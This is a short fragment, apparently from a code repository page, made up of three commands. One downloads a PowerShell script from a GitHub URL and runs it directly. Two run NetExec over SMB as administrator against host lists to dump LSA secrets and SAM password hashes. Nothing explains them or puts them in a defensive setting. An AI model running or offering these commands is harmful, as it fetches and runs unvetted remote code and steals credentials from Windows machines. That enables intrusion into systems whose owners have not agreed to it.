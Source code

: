 `iwr https://raw.githubusercontent.com/hundotio/bluewin/refs/heads/main/users.ps1 | iex`

`nxc smb win.txt -u 'administrator' -p '<password_here' --lsa --sam`
`nxc smb lin.txt -u 'administrator' -p '<password_here' --lsa --sam`
